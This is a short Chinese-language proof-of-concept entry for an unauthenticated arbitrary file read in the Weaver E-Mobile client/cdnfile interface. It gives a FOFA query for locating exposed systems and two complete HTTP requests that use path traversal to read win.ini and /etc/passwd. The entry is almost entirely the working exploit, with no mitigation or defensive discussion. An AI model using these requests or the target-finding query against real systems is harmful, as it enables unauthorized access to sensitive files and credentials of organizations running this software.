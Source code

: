 # 泛微E-Mobile系统接口cdnfile存在任意文件读取漏洞

泛微E-Mobile client/cdnfile 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件、数据库配置文件等等。

## fofa

```javascript
app="泛微-EMobile"
```

## poc

```javascript
GET /client/cdnfile/1C/Windows/win.ini?windows HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

```javascript
GET /client/cdnfile/C/etc/passwd?linux HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![image-20240919111430590](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409191114676.png)